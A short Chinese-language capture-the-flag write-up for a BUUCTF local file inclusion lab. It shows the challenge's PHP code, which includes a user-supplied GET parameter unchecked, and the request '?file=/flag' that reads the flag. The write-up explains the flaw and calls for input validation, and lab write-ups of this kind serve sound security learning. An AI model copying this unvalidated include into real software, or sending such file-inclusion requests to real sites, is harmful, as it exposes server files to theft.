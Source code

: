 # BUU LFI COURSE 1
php网站是很多很多的。。。\
php是世界上最好的语言。。。\
网站上的代码如是:
``` php
<?php
/**
 * Created by PhpStorm.
 * User: jinzhao
 * Date: 2019/7/9
 * Time: 7:07 AM
 */

highlight_file(__FILE__);

if(isset($_GET['file'])) {
    $str = $_GET['file'];

    include $_GET['file'];
}
```
总体而言，这段代码的作用是检查URL中是否传递了一个名为file的GET参数，如果存在，则包含并执行对应的文件。值得注意的是，这段代码存在安全风险，因为直接使用用户提供的GET参数来包含文件可能导致代码注入漏洞。在实际应用中，需要对用户输入进行严格的验证和过滤，以确保安全性。

直接在url输入:
```
http://21a5b944-5053-4ea3-980b-14c922427546.node4.buuoj.cn:81/?file=/flag
```
![Alt text](image.png)
然后我们得到了flag,capture the flag~~
![Alt text](image-1.png)

# 其他
![Alt text](image-2.png)
